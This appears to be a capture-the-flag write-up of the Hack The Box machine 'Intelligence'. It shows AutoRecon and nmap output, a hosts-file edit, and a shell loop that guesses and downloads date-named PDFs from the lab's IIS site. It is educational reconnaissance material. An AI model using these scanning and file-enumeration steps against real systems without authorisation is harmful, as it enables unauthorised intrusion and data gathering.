

# Intelligence
https://app.hackthebox.com/machines/357

Target IP
10.10.10.248

## Enumeration
---

First lets start with [AutoRecon](https://github.com/Tib3rius/AutoRecon).
```
sudo $(which autorecon) 10.10.10.248 --dirbuster.wordlist /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

### Nmap


```
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
80/tcp    open  http          syn-ack ttl 127 Microsoft IIS httpd 10.0
|_http-title: Intelligence
|_http-server-header: Microsoft-IIS/10.0
|_http-favicon: Unknown favicon MD5: 556F31ACD686989B1AFCF382C05846AA
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2022-11-02 06:10:55Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2022-11-02T06:12:38+00:00; +6h59m59s from scanner time.
| ssl-cert: Subject: commonName=dc.intelligence.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.intelligence.htb
| Issuer: commonName=intelligence-DC-CA/domainComponent=intelligence
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-04-19T00:43:16
| Not valid after:  2022-04-19T00:43:16
| MD5:   7767953367fbd65d6065dff77ad83e88
| SHA-1: 155529d9fef81aec41b7dab284d70f9d30c7bde7
| -----BEGIN CERTIFICATE-----
| MIIF+zCCBOOgAwIBAgITcQAAAALMnIRQzlB+HAAAAAAAAjANBgkqhkiG9w0BAQsF
| ADBQMRMwEQYKCZImiZPyLGQBGRYDaHRiMRwwGgYKCZImiZPyLGQBGRYMaW50ZWxs
| aWdlbmNlMRswGQYDVQQDExJpbnRlbGxpZ2VuY2UtREMtQ0EwHhcNMjEwNDE5MDA0
| MzE2WhcNMjIwNDE5MDA0MzE2WjAeMRwwGgYDVQQDExNkYy5pbnRlbGxpZ2VuY2Uu
| aHRiMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAwCX8Wz5Z7/hs1L9f
| F3QgoOIpTaMp7gi+vxcj8ICORH+ujWj+tNbuU0JZNsviRPyB9bRxkx7dIT8kF8+8
| u+ED4K38l8ucL9cv14jh1xrf9cfPd/CQAd6+AO6qX9olVNnLwExSdkz/ysJ0F5FU
| xk+l60z1ncIfkGVxRsXSqaPyimMaq1E8GvHT70hNc6RwhyDUIYXS6TgKEJ5wwyPs
| s0VFlsvZ19fOUyKyq9XdyziyKB4wYIiVyptRDvst1rJS6mt6LaANomy5x3ZXxTf7
| RQOJaiUA9fjiV4TTVauiAf9Vt0DSgCPFoRL2oPbvrN4WUluv/PrVpNBeuN3Akks6
| cmxzKQIDAQABo4IC/jCCAvowLwYJKwYBBAGCNxQCBCIeIABEAG8AbQBhAGkAbgBD
| AG8AbgB0AHIAbwBsAGwAZQByMB0GA1UdJQQWMBQGCCsGAQUFBwMCBggrBgEFBQcD
| ATAOBgNVHQ8BAf8EBAMCBaAweAYJKoZIhvcNAQkPBGswaTAOBggqhkiG9w0DAgIC
| AIAwDgYIKoZIhvcNAwQCAgCAMAsGCWCGSAFlAwQBKjALBglghkgBZQMEAS0wCwYJ
| YIZIAWUDBAECMAsGCWCGSAFlAwQBBTAHBgUrDgMCBzAKBggqhkiG9w0DBzAdBgNV
| HQ4EFgQUCA00YNMscsMLHdNQNIASzc940RUwHwYDVR0jBBgwFoAUo2aX3GwKIqdG
| sKQv+8oXL8nKl8swgdAGA1UdHwSByDCBxTCBwqCBv6CBvIaBuWxkYXA6Ly8vQ049
| aW50ZWxsaWdlbmNlLURDLUNBLENOPWRjLENOPUNEUCxDTj1QdWJsaWMlMjBLZXkl
| MjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxDTj1Db25maWd1cmF0aW9uLERDPWludGVs
| bGlnZW5jZSxEQz1odGI/Y2VydGlmaWNhdGVSZXZvY2F0aW9uTGlzdD9iYXNlP29i
| amVjdENsYXNzPWNSTERpc3RyaWJ1dGlvblBvaW50MIHJBggrBgEFBQcBAQSBvDCB
| uTCBtgYIKwYBBQUHMAKGgalsZGFwOi8vL0NOPWludGVsbGlnZW5jZS1EQy1DQSxD
| Tj1BSUEsQ049UHVibGljJTIwS2V5JTIwU2VydmljZXMsQ049U2VydmljZXMsQ049
| Q29uZmlndXJhdGlvbixEQz1pbnRlbGxpZ2VuY2UsREM9aHRiP2NBQ2VydGlmaWNh
| dGU/YmFzZT9vYmplY3RDbGFzcz1jZXJ0aWZpY2F0aW9uQXV0aG9yaXR5MD8GA1Ud
| EQQ4MDagHwYJKwYBBAGCNxkBoBIEEIHijfJ5/cVAp3sSUrgFUO2CE2RjLmludGVs
| bGlnZW5jZS5odGIwDQYJKoZIhvcNAQELBQADggEBAAe43GWMvptRljuuQyFyo+AG
| c/CL8gNCVGvmkRfXyqK+vb2DBWTQ6uUjl+8hA3WuROBFUkwea5gOByKZdTPQrdou
| mVEeAf96bVQ+7/03O3Sz+0jCVTUbAJGnXNnMLStfx6TiMBqfDqsCcWRf2yScX9J4
| 1ilJEh2sEXnps/RYH+N/j7QojPZDvUeM7ZMefR5IFAcnYNZb6TfAPnnpNgdhgsYN
| 2urpaMc2At5qjf6pwyKYLxjBit1jcX6TmEgB/uaE/L9Py2mqyC7p1r40V1FxSGbE
| z4fcj1sme6//eFq7SKNiYe5dEh4SZPB/5wkztD1yt5A6AWaM+naj/0d8K0tcxSY=
|_-----END CERTIFICATE-----
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.intelligence.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.intelligence.htb
| Issuer: commonName=intelligence-DC-CA/domainComponent=intelligence
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-04-19T00:43:16
| Not valid after:  2022-04-19T00:43:16
| MD5:   7767953367fbd65d6065dff77ad83e88
| SHA-1: 155529d9fef81aec41b7dab284d70f9d30c7bde7
| -----BEGIN CERTIFICATE-----
| MIIF+zCCBOOgAwIBAgITcQAAAALMnIRQzlB+HAAAAAAAAjANBgkqhkiG9w0BAQsF
| ADBQMRMwEQYKCZImiZPyLGQBGRYDaHRiMRwwGgYKCZImiZPyLGQBGRYMaW50ZWxs
| aWdlbmNlMRswGQYDVQQDExJpbnRlbGxpZ2VuY2UtREMtQ0EwHhcNMjEwNDE5MDA0
| MzE2WhcNMjIwNDE5MDA0MzE2WjAeMRwwGgYDVQQDExNkYy5pbnRlbGxpZ2VuY2Uu
| aHRiMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAwCX8Wz5Z7/hs1L9f
| F3QgoOIpTaMp7gi+vxcj8ICORH+ujWj+tNbuU0JZNsviRPyB9bRxkx7dIT8kF8+8
| u+ED4K38l8ucL9cv14jh1xrf9cfPd/CQAd6+AO6qX9olVNnLwExSdkz/ysJ0F5FU
| xk+l60z1ncIfkGVxRsXSqaPyimMaq1E8GvHT70hNc6RwhyDUIYXS6TgKEJ5wwyPs
| s0VFlsvZ19fOUyKyq9XdyziyKB4wYIiVyptRDvst1rJS6mt6LaANomy5x3ZXxTf7
| RQOJaiUA9fjiV4TTVauiAf9Vt0DSgCPFoRL2oPbvrN4WUluv/PrVpNBeuN3Akks6
| cmxzKQIDAQABo4IC/jCCAvowLwYJKwYBBAGCNxQCBCIeIABEAG8AbQBhAGkAbgBD
| AG8AbgB0AHIAbwBsAGwAZQByMB0GA1UdJQQWMBQGCCsGAQUFBwMCBggrBgEFBQcD
| ATAOBgNVHQ8BAf8EBAMCBaAweAYJKoZIhvcNAQkPBGswaTAOBggqhkiG9w0DAgIC
| AIAwDgYIKoZIhvcNAwQCAgCAMAsGCWCGSAFlAwQBKjALBglghkgBZQMEAS0wCwYJ
| YIZIAWUDBAECMAsGCWCGSAFlAwQBBTAHBgUrDgMCBzAKBggqhkiG9w0DBzAdBgNV
| HQ4EFgQUCA00YNMscsMLHdNQNIASzc940RUwHwYDVR0jBBgwFoAUo2aX3GwKIqdG
| sKQv+8oXL8nKl8swgdAGA1UdHwSByDCBxTCBwqCBv6CBvIaBuWxkYXA6Ly8vQ049
| aW50ZWxsaWdlbmNlLURDLUNBLENOPWRjLENOPUNEUCxDTj1QdWJsaWMlMjBLZXkl
| MjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxDTj1Db25maWd1cmF0aW9uLERDPWludGVs
| bGlnZW5jZSxEQz1odGI/Y2VydGlmaWNhdGVSZXZvY2F0aW9uTGlzdD9iYXNlP29i
| amVjdENsYXNzPWNSTERpc3RyaWJ1dGlvblBvaW50MIHJBggrBgEFBQcBAQSBvDCB
| uTCBtgYIKwYBBQUHMAKGgalsZGFwOi8vL0NOPWludGVsbGlnZW5jZS1EQy1DQSxD
| Tj1BSUEsQ049UHVibGljJTIwS2V5JTIwU2VydmljZXMsQ049U2VydmljZXMsQ049
| Q29uZmlndXJhdGlvbixEQz1pbnRlbGxpZ2VuY2UsREM9aHRiP2NBQ2VydGlmaWNh
| dGU/YmFzZT9vYmplY3RDbGFzcz1jZXJ0aWZpY2F0aW9uQXV0aG9yaXR5MD8GA1Ud
| EQQ4MDagHwYJKwYBBAGCNxkBoBIEEIHijfJ5/cVAp3sSUrgFUO2CE2RjLmludGVs
| bGlnZW5jZS5odGIwDQYJKoZIhvcNAQELBQADggEBAAe43GWMvptRljuuQyFyo+AG
| c/CL8gNCVGvmkRfXyqK+vb2DBWTQ6uUjl+8hA3WuROBFUkwea5gOByKZdTPQrdou
| mVEeAf96bVQ+7/03O3Sz+0jCVTUbAJGnXNnMLStfx6TiMBqfDqsCcWRf2yScX9J4
| 1ilJEh2sEXnps/RYH+N/j7QojPZDvUeM7ZMefR5IFAcnYNZb6TfAPnnpNgdhgsYN
| 2urpaMc2At5qjf6pwyKYLxjBit1jcX6TmEgB/uaE/L9Py2mqyC7p1r40V1FxSGbE
| z4fcj1sme6//eFq7SKNiYe5dEh4SZPB/5wkztD1yt5A6AWaM+naj/0d8K0tcxSY=
|_-----END CERTIFICATE-----
|_ssl-date: 2022-11-02T06:12:38+00:00; +7h00m00s from scanner time.
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2022-11-02T06:12:38+00:00; +6h59m59s from scanner time.
| ssl-cert: Subject: commonName=dc.intelligence.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.intelligence.htb
| Issuer: commonName=intelligence-DC-CA/domainComponent=intelligence
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-04-19T00:43:16
| Not valid after:  2022-04-19T00:43:16
| MD5:   7767953367fbd65d6065dff77ad83e88
| SHA-1: 155529d9fef81aec41b7dab284d70f9d30c7bde7
| -----BEGIN CERTIFICATE-----
| MIIF+zCCBOOgAwIBAgITcQAAAALMnIRQzlB+HAAAAAAAAjANBgkqhkiG9w0BAQsF
| ADBQMRMwEQYKCZImiZPyLGQBGRYDaHRiMRwwGgYKCZImiZPyLGQBGRYMaW50ZWxs
| aWdlbmNlMRswGQYDVQQDExJpbnRlbGxpZ2VuY2UtREMtQ0EwHhcNMjEwNDE5MDA0
| MzE2WhcNMjIwNDE5MDA0MzE2WjAeMRwwGgYDVQQDExNkYy5pbnRlbGxpZ2VuY2Uu
| aHRiMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAwCX8Wz5Z7/hs1L9f
| F3QgoOIpTaMp7gi+vxcj8ICORH+ujWj+tNbuU0JZNsviRPyB9bRxkx7dIT8kF8+8
| u+ED4K38l8ucL9cv14jh1xrf9cfPd/CQAd6+AO6qX9olVNnLwExSdkz/ysJ0F5FU
| xk+l60z1ncIfkGVxRsXSqaPyimMaq1E8GvHT70hNc6RwhyDUIYXS6TgKEJ5wwyPs
| s0VFlsvZ19fOUyKyq9XdyziyKB4wYIiVyptRDvst1rJS6mt6LaANomy5x3ZXxTf7
| RQOJaiUA9fjiV4TTVauiAf9Vt0DSgCPFoRL2oPbvrN4WUluv/PrVpNBeuN3Akks6
| cmxzKQIDAQABo4IC/jCCAvowLwYJKwYBBAGCNxQCBCIeIABEAG8AbQBhAGkAbgBD
| AG8AbgB0AHIAbwBsAGwAZQByMB0GA1UdJQQWMBQGCCsGAQUFBwMCBggrBgEFBQcD
| ATAOBgNVHQ8BAf8EBAMCBaAweAYJKoZIhvcNAQkPBGswaTAOBggqhkiG9w0DAgIC
| AIAwDgYIKoZIhvcNAwQCAgCAMAsGCWCGSAFlAwQBKjALBglghkgBZQMEAS0wCwYJ
| YIZIAWUDBAECMAsGCWCGSAFlAwQBBTAHBgUrDgMCBzAKBggqhkiG9w0DBzAdBgNV
| HQ4EFgQUCA00YNMscsMLHdNQNIASzc940RUwHwYDVR0jBBgwFoAUo2aX3GwKIqdG
| sKQv+8oXL8nKl8swgdAGA1UdHwSByDCBxTCBwqCBv6CBvIaBuWxkYXA6Ly8vQ049
| aW50ZWxsaWdlbmNlLURDLUNBLENOPWRjLENOPUNEUCxDTj1QdWJsaWMlMjBLZXkl
| MjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxDTj1Db25maWd1cmF0aW9uLERDPWludGVs
| bGlnZW5jZSxEQz1odGI/Y2VydGlmaWNhdGVSZXZvY2F0aW9uTGlzdD9iYXNlP29i
| amVjdENsYXNzPWNSTERpc3RyaWJ1dGlvblBvaW50MIHJBggrBgEFBQcBAQSBvDCB
| uTCBtgYIKwYBBQUHMAKGgalsZGFwOi8vL0NOPWludGVsbGlnZW5jZS1EQy1DQSxD
| Tj1BSUEsQ049UHVibGljJTIwS2V5JTIwU2VydmljZXMsQ049U2VydmljZXMsQ049
| Q29uZmlndXJhdGlvbixEQz1pbnRlbGxpZ2VuY2UsREM9aHRiP2NBQ2VydGlmaWNh
| dGU/YmFzZT9vYmplY3RDbGFzcz1jZXJ0aWZpY2F0aW9uQXV0aG9yaXR5MD8GA1Ud
| EQQ4MDagHwYJKwYBBAGCNxkBoBIEEIHijfJ5/cVAp3sSUrgFUO2CE2RjLmludGVs
| bGlnZW5jZS5odGIwDQYJKoZIhvcNAQELBQADggEBAAe43GWMvptRljuuQyFyo+AG
| c/CL8gNCVGvmkRfXyqK+vb2DBWTQ6uUjl+8hA3WuROBFUkwea5gOByKZdTPQrdou
| mVEeAf96bVQ+7/03O3Sz+0jCVTUbAJGnXNnMLStfx6TiMBqfDqsCcWRf2yScX9J4
| 1ilJEh2sEXnps/RYH+N/j7QojPZDvUeM7ZMefR5IFAcnYNZb6TfAPnnpNgdhgsYN
| 2urpaMc2At5qjf6pwyKYLxjBit1jcX6TmEgB/uaE/L9Py2mqyC7p1r40V1FxSGbE
| z4fcj1sme6//eFq7SKNiYe5dEh4SZPB/5wkztD1yt5A6AWaM+naj/0d8K0tcxSY=
|_-----END CERTIFICATE-----
3269/tcp  open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.intelligence.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.intelligence.htb
| Issuer: commonName=intelligence-DC-CA/domainComponent=intelligence
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-04-19T00:43:16
| Not valid after:  2022-04-19T00:43:16
| MD5:   7767953367fbd65d6065dff77ad83e88
| SHA-1: 155529d9fef81aec41b7dab284d70f9d30c7bde7
| -----BEGIN CERTIFICATE-----
| MIIF+zCCBOOgAwIBAgITcQAAAALMnIRQzlB+HAAAAAAAAjANBgkqhkiG9w0BAQsF
| ADBQMRMwEQYKCZImiZPyLGQBGRYDaHRiMRwwGgYKCZImiZPyLGQBGRYMaW50ZWxs
| aWdlbmNlMRswGQYDVQQDExJpbnRlbGxpZ2VuY2UtREMtQ0EwHhcNMjEwNDE5MDA0
| MzE2WhcNMjIwNDE5MDA0MzE2WjAeMRwwGgYDVQQDExNkYy5pbnRlbGxpZ2VuY2Uu
| aHRiMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAwCX8Wz5Z7/hs1L9f
| F3QgoOIpTaMp7gi+vxcj8ICORH+ujWj+tNbuU0JZNsviRPyB9bRxkx7dIT8kF8+8
| u+ED4K38l8ucL9cv14jh1xrf9cfPd/CQAd6+AO6qX9olVNnLwExSdkz/ysJ0F5FU
| xk+l60z1ncIfkGVxRsXSqaPyimMaq1E8GvHT70hNc6RwhyDUIYXS6TgKEJ5wwyPs
| s0VFlsvZ19fOUyKyq9XdyziyKB4wYIiVyptRDvst1rJS6mt6LaANomy5x3ZXxTf7
| RQOJaiUA9fjiV4TTVauiAf9Vt0DSgCPFoRL2oPbvrN4WUluv/PrVpNBeuN3Akks6
| cmxzKQIDAQABo4IC/jCCAvowLwYJKwYBBAGCNxQCBCIeIABEAG8AbQBhAGkAbgBD
| AG8AbgB0AHIAbwBsAGwAZQByMB0GA1UdJQQWMBQGCCsGAQUFBwMCBggrBgEFBQcD
| ATAOBgNVHQ8BAf8EBAMCBaAweAYJKoZIhvcNAQkPBGswaTAOBggqhkiG9w0DAgIC
| AIAwDgYIKoZIhvcNAwQCAgCAMAsGCWCGSAFlAwQBKjALBglghkgBZQMEAS0wCwYJ
| YIZIAWUDBAECMAsGCWCGSAFlAwQBBTAHBgUrDgMCBzAKBggqhkiG9w0DBzAdBgNV
| HQ4EFgQUCA00YNMscsMLHdNQNIASzc940RUwHwYDVR0jBBgwFoAUo2aX3GwKIqdG
| sKQv+8oXL8nKl8swgdAGA1UdHwSByDCBxTCBwqCBv6CBvIaBuWxkYXA6Ly8vQ049
| aW50ZWxsaWdlbmNlLURDLUNBLENOPWRjLENOPUNEUCxDTj1QdWJsaWMlMjBLZXkl
| MjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxDTj1Db25maWd1cmF0aW9uLERDPWludGVs
| bGlnZW5jZSxEQz1odGI/Y2VydGlmaWNhdGVSZXZvY2F0aW9uTGlzdD9iYXNlP29i
| amVjdENsYXNzPWNSTERpc3RyaWJ1dGlvblBvaW50MIHJBggrBgEFBQcBAQSBvDCB
| uTCBtgYIKwYBBQUHMAKGgalsZGFwOi8vL0NOPWludGVsbGlnZW5jZS1EQy1DQSxD
| Tj1BSUEsQ049UHVibGljJTIwS2V5JTIwU2VydmljZXMsQ049U2VydmljZXMsQ049
| Q29uZmlndXJhdGlvbixEQz1pbnRlbGxpZ2VuY2UsREM9aHRiP2NBQ2VydGlmaWNh
| dGU/YmFzZT9vYmplY3RDbGFzcz1jZXJ0aWZpY2F0aW9uQXV0aG9yaXR5MD8GA1Ud
| EQQ4MDagHwYJKwYBBAGCNxkBoBIEEIHijfJ5/cVAp3sSUrgFUO2CE2RjLmludGVs
| bGlnZW5jZS5odGIwDQYJKoZIhvcNAQELBQADggEBAAe43GWMvptRljuuQyFyo+AG
| c/CL8gNCVGvmkRfXyqK+vb2DBWTQ6uUjl+8hA3WuROBFUkwea5gOByKZdTPQrdou
| mVEeAf96bVQ+7/03O3Sz+0jCVTUbAJGnXNnMLStfx6TiMBqfDqsCcWRf2yScX9J4
| 1ilJEh2sEXnps/RYH+N/j7QojPZDvUeM7ZMefR5IFAcnYNZb6TfAPnnpNgdhgsYN
| 2urpaMc2At5qjf6pwyKYLxjBit1jcX6TmEgB/uaE/L9Py2mqyC7p1r40V1FxSGbE
| z4fcj1sme6//eFq7SKNiYe5dEh4SZPB/5wkztD1yt5A6AWaM+naj/0d8K0tcxSY=
|_-----END CERTIFICATE-----
|_ssl-date: 2022-11-02T06:12:38+00:00; +7h00m00s from scanner time.
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49691/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49692/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49712/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49717/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
TCP/IP fingerprint:
SCAN(V=7.93%E=4%D=11/1%OT=53%CT=%CU=%PV=Y%DS=2%DC=T%G=N%TM=6361A7E7%P=x86_64-pc-linux-gnu)
SEQ(SP=100%GCD=1%ISR=104%TI=I%II=I%SS=S%TS=U)
OPS(O1=M539NW8NNS%O2=M539NW8NNS%O3=M539NW8%O4=M539NW8NNS%O5=M539NW8NNS%O6=M539NNS)
WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)
ECN(R=Y%DF=Y%TG=80%W=FFFF%O=M539NW8NNS%CC=Y%Q=)
T1(R=Y%DF=Y%TG=80%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=N)
U1(R=N)
IE(R=Y%DFI=N%TG=80%CD=Z)
```

### add target name on  /etc/hosts

```
$ sudo nano /etc/hosts
```

```
10.10.10.248    dc.intelligence.htb intelligence.htb intelligence # HTB intelligence 
```

```
$ sudo cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.10.10.248    dc.intelligence.htb intelligence.htb intelligence # HTB intelligence 

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```


### port 80 - IIS

We see 2 links for PDF files - name of these files are dates

```
$ cat ~/Desktop/HTB/Intelligence/results/10.10.10.248/scans/tcp80/tcp_80_http_curl.html | grep -i .pdf
<p class="mb-0 text-white-50"><a href="documents/2020-01-01-upload.pdf" class="badge badge-secondary">Download</a></p>
<p class="mb-0 text-white-50"><a href="documents/2020-12-15-upload.pdf" class="badge badge-secondary">Download</a></p>
```

```
$ for i in $(seq 0 365); do date --date="2020-01-01+$i days" +%Y-%m-%d-upload.pdf; done > pdflist.txt
```

```
$ cat pdflist.txt
2020-01-01-upload.pdf
2020-01-02-upload.pdf
2020-01-03-upload.pdf
2020-01-04-upload.pdf
2020-01-05-upload.pdf
...
2020-12-29-upload.pdf
2020-12-30-upload.pdf
2020-12-31-upload.pdf
```

```
$ mkdir PDF
$ cd PDF
$ for i in $(cat ../pdflist.txt); do wget http://dc.intelligence.htb/documents/$i; done
...
--2022-11-01 16:37:56--  http://dc.intelligence.htb/documents/2020-08-09-upload.pdf
Resolving dc.intelligence.htb (dc.intelligence.htb)... 10.10.10.248
Connecting to dc.intelligence.htb (dc.intelligence.htb)|10.10.10.248|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 11611 (11K) [application/pdf]
Saving to: ‘2020-08-09-upload.pdf’

2020-08-09-upload.pdf           100%[====================================================>]  11.34K  --.-KB/s    in 0s      

2022-11-01 16:37:57 (185 MB/s) - ‘2020-08-09-upload.pdf’ saved [11611/11611]

--2022-11-01 16:37:57--  http://dc.intelligence.htb/documents/2020-08-10-upload.pdf
Resolving dc.intelligence.htb (dc.intelligence.htb)... 10.10.10.248
Connecting to dc.intelligence.htb (dc.intelligence.htb)|10.10.10.248|:80... connected.
HTTP request sent, awaiting response... 404 Not Found
2022-11-01 16:37:57 ERROR 404: Not Found.
...
```

```
$ ls ~/Desktop/HTB/Intelligence/PDF                                                            
2020-01-01-upload.pdf  2020-03-13-upload.pdf  2020-06-03-upload.pdf  2020-07-24-upload.pdf  2020-10-05-upload.pdf
2020-01-02-upload.pdf  2020-03-17-upload.pdf  2020-06-04-upload.pdf  2020-08-01-upload.pdf  2020-10-19-upload.pdf
2020-01-04-upload.pdf  2020-03-21-upload.pdf  2020-06-07-upload.pdf  2020-08-03-upload.pdf  2020-11-01-upload.pdf
2020-01-10-upload.pdf  2020-04-02-upload.pdf  2020-06-08-upload.pdf  2020-08-09-upload.pdf  2020-11-03-upload.pdf
2020-01-20-upload.pdf  2020-04-04-upload.pdf  2020-06-12-upload.pdf  2020-08-19-upload.pdf  2020-11-06-upload.pdf
2020-01-22-upload.pdf  2020-04-15-upload.pdf  2020-06-14-upload.pdf  2020-08-20-upload.pdf  2020-11-10-upload.pdf
2020-01-23-upload.pdf  2020-04-23-upload.pdf  2020-06-15-upload.pdf  2020-09-02-upload.pdf  2020-11-11-upload.pdf
2020-01-25-upload.pdf  2020-05-01-upload.pdf  2020-06-21-upload.pdf  2020-09-04-upload.pdf  2020-11-13-upload.pdf
2020-01-30-upload.pdf  2020-05-03-upload.pdf  2020-06-22-upload.pdf  2020-09-05-upload.pdf  2020-11-24-upload.pdf
2020-02-11-upload.pdf  2020-05-07-upload.pdf  2020-06-25-upload.pdf  2020-09-06-upload.pdf  2020-11-30-upload.pdf
2020-02-17-upload.pdf  2020-05-11-upload.pdf  2020-06-26-upload.pdf  2020-09-11-upload.pdf  2020-12-10-upload.pdf
2020-02-23-upload.pdf  2020-05-17-upload.pdf  2020-06-28-upload.pdf  2020-09-13-upload.pdf  2020-12-15-upload.pdf
2020-02-24-upload.pdf  2020-05-20-upload.pdf  2020-06-30-upload.pdf  2020-09-16-upload.pdf  2020-12-20-upload.pdf
2020-02-28-upload.pdf  2020-05-21-upload.pdf  2020-07-02-upload.pdf  2020-09-22-upload.pdf  2020-12-24-upload.pdf
2020-03-04-upload.pdf  2020-05-24-upload.pdf  2020-07-06-upload.pdf  2020-09-27-upload.pdf  2020-12-28-upload.pdf
2020-03-05-upload.pdf  2020-05-29-upload.pdf  2020-07-08-upload.pdf  2020-09-29-upload.pdf  2020-12-30-upload.pdf
2020-03-12-upload.pdf  2020-06-02-upload.pdf  2020-07-20-upload.pdf  2020-09-30-upload.pdf
```

Then lets convert PDF to text to allow easy search.
```
$ for i in $(ls *.pdf); do pdftotext $i; done
```

```
$ ls ~/Desktop/HTB/Intelligence/PDF      
2020-01-01-upload.pdf  2020-03-13-upload.pdf  2020-06-03-upload.pdf  2020-07-24-upload.pdf  2020-10-05-upload.pdf
2020-01-01-upload.txt  2020-03-13-upload.txt  2020-06-03-upload.txt  2020-07-24-upload.txt  2020-10-05-upload.txt
2020-01-02-upload.pdf  2020-03-17-upload.pdf  2020-06-04-upload.pdf  2020-08-01-upload.pdf  2020-10-19-upload.pdf
2020-01-02-upload.txt  2020-03-17-upload.txt  2020-06-04-upload.txt  2020-08-01-upload.txt  2020-10-19-upload.txt
2020-01-04-upload.pdf  2020-03-21-upload.pdf  2020-06-07-upload.pdf  2020-08-03-upload.pdf  2020-11-01-upload.pdf
2020-01-04-upload.txt  2020-03-21-upload.txt  2020-06-07-upload.txt  2020-08-03-upload.txt  2020-11-01-upload.txt
2020-01-10-upload.pdf  2020-04-02-upload.pdf  2020-06-08-upload.pdf  2020-08-09-upload.pdf  2020-11-03-upload.pdf
